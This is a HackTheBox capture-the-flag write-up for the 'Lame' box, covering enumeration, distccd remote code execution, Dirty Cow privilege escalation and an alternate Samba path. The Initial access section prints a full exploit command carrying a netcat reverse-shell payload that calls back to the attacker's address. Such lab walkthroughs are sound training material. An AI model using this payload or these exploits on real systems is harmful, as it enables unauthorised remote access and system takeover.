






# Lame -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Lame (HackTheBox)
**Author:** dsec
**Date:** 2025-04-01

---

## TL;DR

### distccd RCE (CVE-2004-2687) for initial shell. Dirty Cow kernel exploit for root. Alternate path via Samba 3.0.20 CVE-2007-2447.
---
## Target info

- Host: `10.129.37.154`
- Services discovered: `21/tcp (ftp)`, `22/tcp (ssh)`, `139/tcp (smb)`, `445/tcp (smb)`, `3632/tcp (distccd)`
---
## Enumeration



Nothing in FTP with anonymous login.



---
## Initial access

Exploited distccd (CVE-2004-2687):

```bash
python2 CVE-2004-2687.py -t 10.129.37.154 -p 3632 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.133 6969 >/tmp/f'
```



---
## Privilege escalation

Used Dirty Cow (kernel exploit):

```bash
searchsploit -m linux/local/40839.c
```



Quick to compile, took forever to run:



---
## Alternate path

Samba 3.0.20-debian -- [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447):



---
## Lessons & takeaways

- distccd on port 3632 is a common easy win -- always check for CVE-2004-2687
- Dirty Cow works but is slow -- consider Samba usermap_script as a faster alternative
- Multiple attack paths exist on the same box -- try all
---
